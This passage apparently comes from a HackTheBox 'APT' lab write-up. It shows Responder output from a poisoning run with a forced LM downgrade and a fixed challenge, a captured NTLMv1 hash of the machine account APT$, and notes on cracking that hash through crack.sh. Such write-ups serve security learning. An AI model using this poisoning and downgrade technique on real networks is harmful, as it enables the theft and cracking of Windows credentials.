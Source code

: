 ```text

[+] HTTP Options:
    Always serving EXE         [OFF]
    Serving EXE                [OFF]
    Serving HTML               [OFF]
    Upstream Proxy             [OFF]

[+] Poisoning Options:
    Analyze Mode               [OFF]
    Force WPAD auth            [OFF]
    Force Basic Auth           [OFF]
    Force LM downgrade         [ON]
    Fingerprint hosts          [OFF]

[+] Generic Options:
    Responder NIC              [tun0]
    Responder IP               [10.10.14.187]
    Challenge set              [1122334455667788]
    Don't Respond To Names     ['ISATAP']



[+] Listening for events...
[SMB] NTLMv1 Client   : 10.10.10.213
[SMB] NTLMv1 Username : HTB\APT$
[SMB] NTLMv1 Hash     : APT$::HTB:95ACA8C7248774CB427E1AE5B8D5CE6830A49B5BB858D384:95ACA8C7248774CB427E1AE5B8D5CE6830A49B5BB858D384:1122334455667788                                                          
[*] Skipping previously captured hash for HTB\APT$
[*] Skipping previously captured hash for HTB\APT$
[*] Skipping previously captured hash for HTB\APT$
[*] Skipping previously captured hash for HTB\APT$
[*] Skipping previously captured hash for HTB\APT$
```

However, I got a hit back on my listener! I had the NTLMv1 hash of the user APT$

> Remember that the printer will use the computer account during the authentication, and computer accounts use long and random passwords that you probably won't be able to crack using common dictionaries. But the NTLMv1 authentication uses DES \(more info here\), so using some services specially dedicated to cracking DES you will be able to crack it \(you could use [https://crack.sh/](https://crack.sh/) for example\).

So this was the computer hash...I seem to remember reading this wasnt useful, but I tried to crack it anyway.

* [https://crack.sh/netntlm/](https://crack.sh/netntlm/)

> There’s a number of articles on the LmCompatibilityLevel setting in Windows, but this will only work if a client has this setting at 2 or lower.

Looking good so far

* [https://crack.sh/get-cracking/](https://crack.sh/get-cracking/)
